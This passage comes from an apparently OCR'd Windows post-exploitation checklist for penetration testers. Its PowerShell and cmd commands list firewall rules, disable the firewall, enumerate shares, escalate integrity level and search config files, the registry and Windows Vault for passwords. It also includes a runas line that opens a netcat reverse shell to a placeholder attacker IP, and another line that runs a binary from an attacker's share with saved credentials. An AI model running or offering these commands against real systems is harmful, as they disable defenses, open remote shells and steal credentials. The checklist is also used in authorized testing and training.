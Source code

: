 	```powershell
	$f=New-object -comObject HNetCfg.FwPolicy2;$f.rules |  where {$_.action -eq "0"} | select name,applicationname,localports
	```
- [ ] Disable firewall
	```powershell
	netsh advfirewall set allprofiles state off
	netsh firewall set opmode disable
	```
- [ ] List network shares
	```powershell
	net share
	powershell Find-DomainShare \-ComputerDomain domain.local
	```
- [ ] SNMP config
	```powershell
	reg query HKLM\\SYSTEM\\CurrentControlSet\\Services\\SNMP /s
	Get-ChildItem \-path HKLM:\\SYSTEM\\CurrentControlSet\\Services\\SNMP \-Recurse
	```
### Credential Access
- [ ]  Go from **medium mandatory level** to **high mandatory level**
	```powershell
	# using powershell
	powershell.exe Start-Process cmd.exe -Verb runAs
	```
- [ ] **TRY KNOWN PASSWORDS!**
	```powershell
	# check also with runas
	C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
	```
- [ ] Creds from config files (Try different words e.g: pass, passwd, pwd, user, usr, username, secret, cred, credential, auth):
	```powershell
	dir /s /b /p *pass* == *cred* == *vnc* == *.config* == *conf* == *ini*
	findstr /si /m password \*.xml \*.ini \*.txt
	```
- [ ] Creds from local DBs
- [ ] Creds from  Windows Vault
	```powershell
	cmdkey /list
	# if found
	runas /savecred /user:WORKGROUP\Administrator "\\attacker-ip\SHARE\welcome.exe"
	```
- [ ] Creds from Registry
	```powershell
	reg query HKLM /f password /t REG\_SZ /s
	reg query HKCU /f password /t REG\_SZ /s
	
